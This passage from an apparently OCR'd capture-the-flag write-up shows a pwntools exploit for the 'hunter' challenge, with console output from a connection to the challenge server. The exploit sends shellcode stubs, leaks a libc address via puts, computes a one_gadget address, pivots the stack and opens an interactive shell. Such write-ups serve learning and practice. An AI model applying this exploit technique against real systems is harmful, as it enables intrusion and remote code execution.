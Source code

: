 ```python
p.sendlineafter("What is your name hunter? : ",payload)
p.sendlineafter("What is your most precious possession? : ",sec_payload)

# ---SET R15 = PUTS.PLT_ADDR---
payload = "\x4D\x89\xF7\x48\x31\xC0\x66\xB8\x28\x2F\x49\x29\xC7\x41\x55\xC3"
log.info("Sending payload:\n{}".format(hexdump(payload)))
log.info("PAYLOAD:\n{}".format(disasm(payload)))
p.sendlineafter("What is your name hunter? : ",payload)
p.sendlineafter("What is your most precious possession? : ",sec_payload)

# ---CALL PUTS(PUTS_GOT.PLT_ADDR)---
payload = "\x4C\x89\xF7\x41\xFF\xD7\x41\x55\xC3"
log.info("Sending payload:\n{}".format(hexdump(payload)))
log.info("PAYLOAD:\n{}".format(disasm(payload)))
p.sendlineafter("What is your name hunter? : ",payload)
p.sendlineafter("What is your most precious possession? : ",sec_payload)
printf_libc = p.recv(6)
printf_libc = printf_libc + chr(0) + chr(0)
printf_libc = u64(printf_libc)
log.info("Printf Libc Address: " + hex(printf_libc))

pause()
# ---CALCULATE BASE LIBC ADDRESS WITH OFFSET---
base_libc = printf_libc - 0x55810
one_gadget = base_libc + 0x45226

# ---POP RSP INTO OUR PAYLOAD2 THEN RET2LIBC---
payload1 = "\x58"*5 + "\x48\x31\xC0\xC3"
log.info("Sending payload:\n{}".format(hexdump(payload)))
payload2 = p64(one_gadget)
p.sendlineafter("What is your name hunter? : ",payload1)
p.sendlineafter("What is your most precious possession? : ",payload2)
p.interactive()
```

OUTPUT:
```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf/hunter]
└─$ python2 solve.py
[+] Opening connection to chall.nitdgplug.org on port 30090: Done
[*] Sending payload:
    00000000  5b 48 31 c0  b0 ee 48 29  c3 53 49 89  dd c3        │[H1·│··H)│·SI·│··│
    0000000e
[*] PAYLOAD:
       0:   5b                      pop    rbx
       1:   48 31 c0                xor    rax, rax
       4:   b0 ee                   mov    al, 0xee
       6:   48 29 c3                sub    rbx, rax
       9:   53                      push   rbx
       a:   49 89 dd                mov    r13, rbx
       d:   c3                      ret
[*] Sending payload:
    00000000  4d 89 ee 48  31 c0 66 b8  1f 2e 49 01  c6 41 55 c3  │M··H│1·f·│·.I·│·AU·│
    00000010
[*] PAYLOAD:
       0:   4d 89 ee                mov    r14, r13
       3:   48 31 c0                xor    rax, rax
       6:   66 b8 1f 2e             mov    ax, 0x2e1f
       a:   49 01 c6                add    r14, rax
       d:   41 55                   push   r13
       f:   c3                      ret
[*] Sending payload:
    00000000  4d 89 f7 48  31 c0 66 b8  28 2f 49 29  c7 41 55 c3  │M··H│1·f·│(/I)│·AU·│
    00000010
```